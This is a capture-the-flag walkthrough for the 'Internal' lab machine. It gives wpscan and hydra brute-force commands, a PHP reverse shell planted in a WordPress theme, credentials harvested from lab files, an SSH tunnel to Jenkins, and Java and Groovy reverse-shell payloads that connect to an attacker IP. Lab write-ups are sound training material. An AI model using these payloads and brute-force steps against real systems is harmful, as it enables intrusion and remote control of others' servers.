

internal
Internal
We do nmap scan to find only 2 ports open 22 and 80
Running standard SSH and Webserver.
We add the IP to hosts file as internal.htm
10.10.41.53 internal.thm
Next we enumerate hidden directories using gobuster.

We see one post from admin in the /blog page. (Confirming a user named admin)
We confirm it uses wordpress from wappalyzer app of firefox and also view source.
The Blog directory has a login page of wp-admin.
However, we do not have any credentials yet.
From here there are 2 options:
1. Use wp-scan tool and finally bruteforce with it [Selected]
OR
2. Directly bruteforce with hydra
Using wpscan:
wpscan --url http://internal.thm/blog
This will do a initial scan to find any known vulnerabilities.
wpscan --url http://internal.thm/blog -e u
This will enumerate the users. We find an user named admin. As found earlier
Then we bruteforce using wpscan
wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 100
Note: We can use -U or --usernames and -P or ---passwords
The process is very slow and time taking hence we increase thead count by --max-threads 100
We crack the password:
Username : admin
Password : my2boys
We login to the wp-admin area. In the dashboard we see posts.
One Private Post revealed a credential:
Don't forget to reset Will's credentials. william:arnold147
We save it for later after checking the ssh login. It is never used in this CTF
Next,
1. We focus on the apperance → edit theme
And select any php page. Edit/remove its content and paste a php-reverse-shell code with proper IP and Port
2. Start netcat listener
3.
Note: The most important aspect is finding this page to trigger the reverse shell.
Location is follows:
http://internal.thm/wordpress/wp-content/themes/twentyseventeen/***.php
Note: whichever page we have edited, replace the *** with that page.
eg.
http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php
if edited 404.php
http://internal.thm/wordpress/wp-content/themes/twentyseventeen/archive.php
If edited archive.php
Once we open the exploited pages, we will get a connection as www-root with no access to user or root flag.
Upgrading to higher privilege user:
From the initial access we can download and runs LinPEAS.sh for privilege escalation. We find we intresting files.
We also discover that root login is permitted in SSH provided we have the password.
1.
/etc/phpmyadmin/config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded. *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='B2Ud4fEOZmVq';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
The file has username and password for phpmyadmin.
We login through http://internal.thm/phpmyadmin
We can see the phpmyadmin database, but didn't find anything useful.
2.
/etc/wordpress/config-localhost.php
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'wordpress123');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/var/www/html/wordpress/wp-content');
?>
We can again login to http://internal.thm/phpmyadmin using the above credentials.
We can see the wordpress database, but didn't find anything useful.
3.
/opt/wp-save.txt
Bill,
Aubreanna needed these credentials for something later. Let her know you have them and where they are.
aubreanna:bubb13guM!@#123
Finally, we find user crendentials in the text file.
Now we can SSH into the machine using the above.
Then we get the user flag in aunreanna home folder
Root Privilege Escalation:
There is one more intresting file in the home folder.
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
This tells us that a local jenkins server is running in a container.
netstat -tan | grep 8080
The above command checks the connections and confirms that 127.0.0.1:8080 is indeed accessible for localhost only.
The way around this is using SSH Tunneling.
ssh -L 9999:172.17.0.2:8080 aubreanna@internal.thm
ssh -L 9999:127.0.0.1:8080 aubreanna@internal.thm
we can use anyone of the them and once we login. Our target machine can access the Jenkins server page by
http://localhost:9999
We have a jenkins login page. However, any of the old passwords we found didn't work.
Then,
We tried test:test and admin:admin
It gave a clue, stating admin is indeed an user
Finally we will bruteforce this login page using hydra:
We capture a login post request using burpsuite to get the 2 components for hydra
we get the 3rd component from login error.
1. /j_acegi_security_check
2. j_username=admin&j_password=bazinga&from=%2F&Submit=Sign+in
3. Invalid username or password
Then the following is our crafted hydra syntax:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 9999 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -vv
We get the credentials for Jenkins as:
User: admin
Pass: spongebob
Once inside jenkins dashboard, go to mange -→ script console
Here we can use either groovy code or java code for reverse shell and click on run once we are ready with a listner.
JAVA: (https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.72.31/6666;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
GROOVY: (https://cybexray.github.io/revshell/revshell.html)
String host="10.11.72.31";int port=6666;String cmd="/bin/sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
We will get a shell in our listner with the user jenkins.
Note: We are now accessing the containerized environment.
We find an intresting text file inside /opt
cat /opt/note.txt
root:tr0ub13guM!@#123
This files contains the root password for the internal.thm machine.
We ssh as root using the credentials found here and retrieve the root flag.
Thanks!!